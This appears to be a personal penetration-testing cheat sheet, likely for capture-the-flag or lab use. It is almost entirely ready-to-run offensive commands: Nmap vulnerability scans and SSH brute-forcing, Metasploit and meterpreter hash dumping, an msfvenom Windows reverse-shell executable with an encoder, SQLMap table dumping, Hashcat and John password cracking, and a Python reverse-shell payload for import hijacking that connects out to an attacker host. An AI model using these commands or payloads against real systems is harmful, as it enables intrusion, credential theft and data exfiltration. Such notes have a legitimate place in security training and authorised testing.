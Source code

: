 
## General Linux stuff


### path_poisoning

`export PATH=<directory_with_poison>:$PATH`

### SUDO

#### Check what commands can be run as sudo

`sudo -l`

#### Running commands as other users with sudo

`sudo -u <user> <command>`

## Nmap

### Check for vulns with scan

```nmap -sV -vv --script="vuln" <ip>```

### Enumerate SMB shares

```nmap -p <port> --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

### List mounts available on a NFS

```nmap -p <port> --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

### Bruteforce SSH with script engine

`nmap <host> -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt`

## Metasploit

### Start Metasploit

```msfconsole -q```

### List sessions

```sessions```

### Search for and use module from nmap vuln scan

```search <vuln>```

```use <index>```

### Change reverse shell to metapreter shell

```use post/multi/manage/shell_to_metapreter```

```set session <session id of shell>```

Change to metapreter session:

```sessions -i <session id>```

#### Useful metapreter commands

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

### Generate reverse shell as windows executable

```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o <.exe>```

## Hashcat

### Identify Hash

```hash-identifier <hash>```

### Common hash types

```text
900   | MD4                                              | Raw Hash
0     | MD5                                              | Raw Hash
100   | SHA1                                             | Raw Hash
1300  | SHA2-224                                         | Raw Hash
1400  | SHA2-256                                         | Raw Hash
10800 | SHA2-384                                         | Raw Hash
1700  | SHA2-512                                         | Raw Hash
17300 | SHA3-224                                         | Raw Hash
17400 | SHA3-256                                         | Raw Hash
17500 | SHA3-384                                         | Raw Hash
17600 | SHA3-512                                         | Raw Hash
6000  | RIPEMD-160                                       | Raw Hash
600   | BLAKE2b-512                                      | Raw Hash
11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian | Raw Hash
11800 | GOST R 34.11-2012 (Streebog) 512-bit, big-endian | Raw Hash
6900  | GOST R 34.11-94                                  | Raw Hash
5100  | Half MD5                                         | Raw Hash
18700 | Java Object hashCode()                           | Raw Hash
17700 | Keccak-224                                       | Raw Hash
17800 | Keccak-256                                       | Raw Hash
17900 | Keccak-384                                       | Raw Hash
18000 | Keccak-512                                       | Raw Hash
21400 | sha256(sha256_bin($pass))                        | Raw Hash
6100  | Whirlpool                                        | Raw Hash
10100 | SipHash                                          | Raw Hash
21000 | BitShares v0.x - sha512(sha512_bin(pass))        | Raw Hash
```

### Crack MD5 hash with rockyou

```hashcat -a 0 -m 0 <hash/hashfile> /usr/share/wordlists/rockyou.txt --show```

## Gobuster

### List directories and files

```gobuster dir -u http://<ip>:<port> -w <wordlist> -x <file types>```

## SQLMap

### Discover database names

```sqlmap -r <request file> --dbs```

### Show tables in database

```sqlmap -r <request file> -D <database name> --tables```

### Enum table in database

```sqlmap -r <request file> -D <database name> -T <table name> --dump```

## Windows

### Stop a service

```sc stop <service name>```

### Start a service

```sc start <service name>```

## Useful python stuff

### Hijacking imports

If a target has a python file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## John

### gpg

`gpg2john <gpg_key_file> > hash`

`john --wordlist=/path/to/wordlist hash`

### ssh

`python /usr/share/john/ssh2john.py <ssh_key_file> > hash`

`john --wordlist=/path/to/wordlist hash`